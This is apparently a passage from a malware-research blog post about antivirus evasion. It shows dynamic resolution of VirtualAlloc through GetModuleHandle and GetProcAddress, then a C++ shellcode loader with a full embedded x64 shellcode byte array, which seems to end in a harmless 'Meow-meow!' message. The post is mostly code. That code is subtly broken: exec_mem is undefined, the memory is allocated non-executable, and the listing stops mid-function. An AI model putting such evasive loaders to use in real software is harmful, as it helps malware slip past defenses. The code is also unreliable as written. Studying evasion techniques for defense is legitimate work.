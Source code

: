 This post is the result of my self research into interesting trick in real-life malware.    

In the one of my [previous](tutorial/2021/09/06/simple-malware-av-evasion-2.html) posts I wrote about using `GetModuleHandle`. It is returns a handle a specified DLL. For example:

```cpp
#include <windows.h>

LPVOID (WINAPI * pVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);

//...

int main() {
   DWORD oldprotect = 0;

   HMODULE hk32 = GetModuleHandle("kernel32.dll");
   pVirtualAlloc = GetProcAddress(hk32, "VirtualAlloc");

   //...

   return 0;
}
```

Then, the actual way to execute shellcode is something like this (`meow.cpp`):    

```cpp
#include <windows.h>

LPVOID (WINAPI * pVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);

unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";


int main() {
  HMODULE hk32 = GetModuleHandle("kernel32.dll");
  pVirtualAlloc = GetProcAddress(hk32, "VirtualAlloc");
  PVOID lb = pVirtualAlloc(0, sizeof(my_payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = CreateThread(0, 0, (PTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
  WaitForSingleObject(th, -1);
```